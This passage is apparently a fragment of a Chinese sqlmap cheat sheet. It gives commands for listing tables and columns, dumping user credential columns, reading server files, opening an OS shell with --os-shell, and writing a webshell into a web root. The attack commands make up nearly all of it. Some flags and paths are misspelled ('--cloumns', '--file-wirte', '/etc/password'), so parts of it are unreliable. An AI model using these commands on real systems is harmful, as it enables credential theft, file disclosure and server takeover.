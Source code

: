 ```
--tables -D 数据库名
```
**`--columns`获取字段名**：
```
--cloumns -T user -D abc
```
**获取数据**
```
-T user -C username,password,email --dump
```
**读文件内容**
```
--file-read /etc/password
如果我们想要读取目标主机的c:\\2.txt文件的数据
sqlmap.py -u http://192.168.203.141/sql.php?id=1 --file-read c:\\2.txt
```
**系统交互的shell**:`--os-shell`
```
sqlmap.py -u http://192.168.203.141/sqlserver/1.aspx?xxser=1 --os-shell
```
**写webshell** :`--file-wirte`
```
指令
--file-write "c:/2.txt" --file-dest "C:/php/htdocs/sql.php" -v 1

--file-write "c:/2.txt" --file-dest"C:\phpStudy\PHPTutoria\www\xx.php" -v 1
```

